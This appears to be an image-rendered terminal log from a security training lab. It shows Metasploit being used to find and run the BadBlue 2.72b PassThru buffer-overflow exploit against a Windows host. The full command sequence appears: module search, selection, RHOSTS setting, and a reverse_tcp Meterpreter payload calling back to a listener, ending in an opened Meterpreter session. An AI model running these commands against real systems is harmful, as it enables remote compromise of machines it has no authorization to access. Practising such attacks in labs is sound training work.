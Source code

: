 ```
root@attackdefense:~# msfconsole -q
msf6 > search BadBlue

Matching Modules
================

   #  Name                                       Disclosure Date  Rank   Check  Description
   -  ----                                       ---------------  ----   -----  -----------
   0  exploit/windows/http/badblue_ext_overflow  2003-04-20       great  Yes    BadBlue 2.5 EXT.dll Buffer Overflow
   1  exploit/windows/http/badblue_passthru      2007-12-10       great  No     BadBlue 2.72b PassThru Buffer Overflow


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/http/badblue_passthru

msf6 > use 1
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/badblue_passthru) > show options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf6 exploit(windows/http/badblue_passthru) > set RHOSTS 10.0.18.253
RHOSTS => 10.0.18.253
msf6 exploit(windows/http/badblue_passthru) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (175174 bytes) to 10.0.18.253
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.0.18.253:49262) at 2023-07-13 06:51:11 +0530

meterpreter > 
```
